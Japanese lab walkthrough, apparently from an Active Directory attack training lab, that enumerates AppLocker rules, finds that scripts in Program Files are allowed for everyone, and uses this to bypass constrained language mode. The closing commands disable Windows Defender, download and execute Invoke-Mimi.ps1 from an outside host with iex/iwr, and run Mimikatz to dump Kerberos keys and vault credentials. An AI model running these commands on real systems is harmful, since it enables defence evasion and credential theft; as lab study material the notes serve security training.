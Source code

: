 MSIのバイナリとスクリプトはすべてのユーザに許可されているようだが、それ以外は許可されていないことがわかる。
**↑ただこの特定のルールは過度に寛容である。**
また、今回scriptはps1、vbs、jsに対する制御ポリシーを格納している。
```
C:\Users\student828>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SRPV2\Script\06dce67b-934c-454f-a263-2515c8796a5d
    Value    REG_SZ    <FilePathRule Id="06dce67b-934c-454f-a263-2515c8796a5d" Name="(Default Rule) All scripts located in the Program Files folder" Description="Allows members of the Everyone group to run scripts that are located in the Program Files folder." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*"/></Conditions></FilePathRule>
```
上記の結果からデフォルトのルールが有効になっており、すべての人がC:\ProgramFilesフォルダからスクリプトを実行できることがわかった。

- PowerShellでも同様に確認できる。
```
PS C:\Users\studentx> Enter-PSSession dcorp-adminsrv

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 

ConstrainedLanguage ←こいつが設定されていると「..\Invoke-Mimi.ps1」を使用してスクリプトは実行できない。

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 

[snip] 
PathConditions      : {%PROGRAMFILES%\*} 
PathExceptions      : {} 
PublisherExceptions : {} 
HashExceptions      : {} 
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d 
Name                : (Default Rule) All scripts located in the Program Files 
folder 
Description         : Allows members of the Everyone group to run scripts 
that are located in the Program Files folder. 
UserOrGroupSid      : S-1-1-0 
Action              : Allow 
 
PathConditions      : {%WINDIR%\*} 
PathExceptions      : {} 
PublisherExceptions : {} 
HashExceptions      : {} 
Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c 
Name                : (Default Rule) All scripts located in the Windows 
folder 
Description         : Allows members of the Everyone group to run scripts 
that are located in the Windows folder. 
UserOrGroupSid      : S-1-1-0 
Action              : Allow
```
上でも記載したが誰でもProgramFilesからスクリプトの実行が誰でもできる。
ただWindows Defenderを無効にする必要がある。

---

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 